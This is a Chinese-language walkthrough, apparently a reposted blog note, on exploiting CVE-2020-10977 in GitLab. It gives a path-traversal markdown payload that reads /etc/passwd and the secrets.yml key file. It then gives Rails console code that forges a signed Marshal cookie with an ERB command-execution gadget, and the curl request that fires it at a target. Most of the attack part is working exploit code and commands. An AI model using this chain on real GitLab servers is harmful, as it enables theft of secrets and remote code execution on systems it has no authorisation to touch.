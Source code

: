 # CVE-2020-10977 Gitlab任意文件读取导致远程命令执行

**任意文件读取**

新建两个测试项目

在其中一个project中创建新的issue，在其问题描述中输入下方代码，然后提交


```
![a](/uploads/11111111111111111111111111111111/../../../../../../../../../../../../../../etc/passwd)

```

创建issue成功后点击move issue，将它移动到test2中

test2中的issue中带了一个password附件

点击下载password附件，用记事本方式打开，发现其内容就是/etc/password的内容

**RCE（remote command/code execute）**

利用任意文件读取漏洞

下载/opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml文件，获取secret_key_base

media/16096808105538/16096808648174.jpg)



```
![a](/uploads/11111111111111111111111111111111/../../../../../../../../../../../../../../opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml)

```

下载secrets.yml，获取secret_key_base

在自己的攻击机上搭建一个gitlab环境（详见环境搭建笔记）

将目标机下载下来的secerts.yml覆盖在自己攻击机上/opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml

（也可以只替换secret_key_base）

使用gitlab-rails console执行以下命令


```
gitlab-rails console #进入rails console
```

依次输入：


```
request = ActionDispatch::Request.new(Rails.application.env_config)
request.env["action_dispatch.cookies_serializer"] = :marshal
cookies = request.cookie_jar
erb = ERB.new("<%= `echo flag was here > /tmp/flag` %>")
depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result, "@result", ActiveSupport::Deprecation.new)
cookies.signed[:cookie] = depr
puts cookies[:cookie]
```

获取cookie，构造语句：


```
curl -vvv 'http://192.168.1.86:8888/users/sign_in' -b "experimentation_subject_id=cookie"

```

（ps：experimentation_subject_id参数输入rail console获取的cookie值）


通过任意文件读取下载/tmp/flag文件，内容：“flag was here”，说明命令执行成功！

EXP：https://www.exploit-db.com/exploits/48431

参考：https://hackerone.com/reports/827052

来源csdn博客，原文已删。

https://forum.ywhack.com/thread-114698-1-3.html

